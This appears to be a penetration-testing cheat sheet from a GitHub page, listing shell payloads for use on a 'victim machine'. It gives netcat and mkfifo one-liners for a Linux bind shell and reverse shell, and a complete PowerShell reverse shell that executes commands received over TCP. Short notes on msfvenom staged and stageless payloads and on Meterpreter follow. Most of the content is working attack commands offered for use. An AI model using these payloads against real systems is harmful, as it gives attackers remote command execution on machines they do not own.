 # Shell Payload

## Alternative to "-e - execute " flag in nc win/linux ( to be run on Victim machine )

- Creating a bind shell for linux 

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

  (It creates a pipe and then starts the nc listner/executes the command)


- Creating a Reverse shell for Linux

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

### Nc using pipe for windows
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

Replace the "IP" & "Port"

# Msfvenom

1. **Staged** payloads are sent in two parts. The first part is called the stager, It does not contain the payload but rather run's and downloads the payload.
Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective


2. **Stageless** payloads are more common, They are entirely self-contained in that there is one piece of code which sends a shell back immediately to the waiting listener.


# Meterpreter 

Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with **Windows targets**
  If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell.
     Downside to meterpreter shells is that they must be caught in Metasploit.


